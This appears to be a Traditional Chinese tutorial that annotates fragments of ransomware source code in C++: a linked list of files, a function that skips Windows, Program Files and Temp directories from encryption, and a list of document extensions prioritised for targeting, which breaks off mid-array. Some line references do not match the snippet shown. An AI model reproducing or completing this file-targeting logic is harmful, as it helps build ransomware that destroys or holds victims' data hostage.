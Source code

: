 ```cpp=
BOOL FileList::Insert(PFileNode pNode)
{
	pNode->m_pNext = m_pHead;
	pNode->m_pPrev = m_pHead->m_pPrev;
	pNode->m_pPrev->m_pNext = pNode;
	m_pHead->m_pPrev = pNode;
	m_nFiles++;
	return TRUE;
}

```
* 第8行，m_pHead->m_pNext表示鏈結的head，m_pHead->m_pPrev表示鏈結的tail
* 第9行，目前未定義檔案類型，故設為0。
* 第20到第28行，環狀雙向鏈結的製作，其詳細操作原理可看前面的說明文件。

```cpp=30
BOOL isIgnorePath(LPCTSTR pFullPath, LPCTSTR pFileName)
{
	LPCTSTR pPath1 = _tcsnicmp(
		pFullPath,
		_T("\\\\"), 2) == 0 ?
		_tcsstr(pFullPath, _T("$\\")) :
		pFullPath + 1;
	LPCTSTR pPath2 = pPath1 + 1;
	if (pPath1) {
		if (!_tcsicmp(pPath2, _T("\\Intel")) ||
			!_tcsicmp(pPath2, _T("\\ProgramData")) ||
			!_tcsicmp(pPath2, _T("\\WINDOWS")) ||
			!_tcsicmp(pPath2, _T("\\Program Files")) ||
			!_tcsicmp(pPath2, _T("\\Program Files (x86)")) ||
			_tcsstr(pPath2, _T("\\AppData\\Local\\Temp")) ||
			_tcsstr(pPath2, _T("\\Local Settings\\Temp"))) {
			DEBUG("Skip %s\n", pFullPath);
			return TRUE;
		}
	}
	if (!_tcsicmp(pFileName, _T("This folder protects against ransomware. Modifying it will reduce protection")) ||
		!_tcsicmp(pFileName, _T("Temporary Internet Files")) ||
		!_tcsicmp(pFileName, _T("Content.IE5"))) {
		DEBUG("Skip %s\n", pFullPath);
		return TRUE;
	}
	if (!_tcsicmp(pFileName, BASE_DIRNAME)) {
		DEBUG("Skip %s\n", pFullPath);
		return TRUE;
	}
	return FALSE;
}

```
* 第37到第49行，若路徑出現以下目錄，則無須加密。
```cpp=63
DWORD ClassifyFileType(LPCTSTR pFileName)
{
	static LPCTSTR HighPriorityFiles[] = { _T(".doc"),
		_T(".docx"), _T(".xls"), _T(".xlsx"), _T(".ppt"),
		_T(".pptx"), _T(".pst"), _T(".ost"), _T(".msg"),
		_T(".eml"), _T(".vsd"), _T(".vsdx"), _T(".txt"),
		_T(".csv"), _T(".rtf"), _T(".123"), _T(".wks"),
		_T(".wk1"), _T(".pdf"), _T(".dwg"), _T(".onetoc2"),
		_T(".snt"),	_T(".jpeg"), _T(".jpg"), NULL };
	static LPCTSTR LowPriorityFiles[] = { _T(".docb"),
		_T(".docm"), _T(".dot"), _T(".dotm"), _T(".dotx"),
```